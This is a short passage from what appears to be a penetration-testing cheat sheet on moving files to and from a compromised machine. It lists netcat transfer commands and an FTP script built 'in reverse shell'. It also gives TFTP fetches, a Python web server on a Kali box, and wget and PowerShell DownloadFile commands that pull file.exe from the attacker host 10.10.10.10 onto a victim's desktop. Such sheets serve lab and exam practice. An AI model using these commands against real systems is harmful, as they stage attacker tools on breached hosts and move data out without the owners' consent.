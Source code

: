 ```bash
#On the Receiving Machine
nc -l -p 9999 > received_file.txt

#On the Sending Machine
nc 10.10.10.10 9999 < received_file.txt
```
 

## Via FTP

  - Using FTP

```bash
# In Kali
pip install pyftplib
python -m pyftpdlib -p 21 -w

# In reverse shell
echo open 10.10.10.10 > ftp.txt
echo USER anonymous >> ftp.txt
echo ftp >> ftp.txt 
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt

# Execute
ftp -v -n -s:ftp.txt
```

  - Using TFTP

```bash
# In Kali
atftpd --daemon --port 69 /tftp

# In reverse shell
tftp -i 10.10.10.10 GET file.txt
```

## Via HTTP

  - Using basic commands

```bash
# In Kali
python -m SimpleHTTPServer 80

# In reverse shell - Linux
wget 10.10.10.10/file

# In reverse shell - Windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"
```

